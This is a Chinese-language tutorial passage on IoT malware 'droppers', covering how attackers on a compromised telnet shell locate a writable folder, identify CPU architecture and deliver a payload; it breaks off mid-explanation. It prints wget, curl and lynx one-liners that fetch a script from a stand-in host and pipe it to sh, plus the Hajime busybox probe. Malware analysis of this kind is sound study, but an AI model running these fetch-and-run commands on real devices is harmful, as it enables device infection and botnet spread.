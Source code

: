 **dropper是什么？**

dropper的主要功能：

攻击者对存在漏洞的设备进行扫描（通过暴力破解等方式拿到智能设备root权限的shell）

攻击者通过登录telnet服务获得一个root权限的shell，尝试在该设备上安装恶意软件。

恶意软件执行，完成对目标设备的入侵。

**在目标设备中下载安装恶意程序的脚本通常被叫做dropper。因为这段代码可以通过一些手段把恶意软件释放（drop）到设备上。**

依托于目标设备上可用的工具，dropper的实现很简单，仅需几行代码，像下面这样：

```
wget -q http://evil-hax0r.com/m.sh -O - | sh
curl -s http://evil-hax0r.com/m.sh | sh
lynx -dump http://evil-hax0r.com/m.sh | sh
```

或者还可以需要通过已经建立的会话来进行文件的传输。在某种意义上，dropper类似于“[**Rubber Ducky**](http://www.freebuf.com/sectool/47411.html)”。只要提供一个交互式的终端，我们可以向服务端（即目标IoT设备）发送命令。

<br>

**详细分析dropper**

dropper的主要目的是在IoT设备上安装恶意软件并执行。这听起来很容易，但通常来讲需要以下几个步骤完成这件事。

**首先，在目标设备中找到一个具有可写和可执行权限的文件夹。通常来讲，/tmp文件夹一般会满足以上两个条件（可写、可执行），但是出于保险起见我们最好还是先测试一下。**

**第二，摸清楚目标设备的架构，以便可以释放正确的二进制文件。为了增加在互联网上的传播机会，针对嵌入式设备的恶意软件通常支持多种架构。你可能会遇到一些ARM架构，MIPS 32位、64架构的处理器。**

**最后，dropper必须设法将该恶意文件传输到嵌入式设备中并运行。**

注意：复杂的dropper还有更多的功能。如，检查机器是否已经被感染，移除其他的恶意软件，检查是否在调试环境中（虚拟机、沙盒等）。

对于初次接触这方面的人来说，我们只需关注基础部分就好了。

那么我们就跟着这些步骤一步一步的去研究吧，再此之前我们还要做一些准备工作。

<br>

**解析命令**

攻击者运行一个程序，感染远程的嵌入式设备。这个程序与远程嵌入式设备的telnet服务建立socket连接，通过socket连接发送和接收数据。通过socket传输的数据就是我们手动连接设备键入的内容。

为了便于后续操作，收集执行命令后回显的信息是非常有必要的。

许多恶意软件采用的方式是输入不存在的busybox命令记录每一个回显的值。你将看到如下命令：

```
nc; wget; /bin/busybox RANDOM_TAG
```

恶意软件Hajime使用上面的命令来检查当前busybox是否具有nc和wget命令。对于不存在的命令，busybox将返回以下内容。

```
COMMAND: applet not found
```

这样的话，上一个命令将产生以下回显结果：
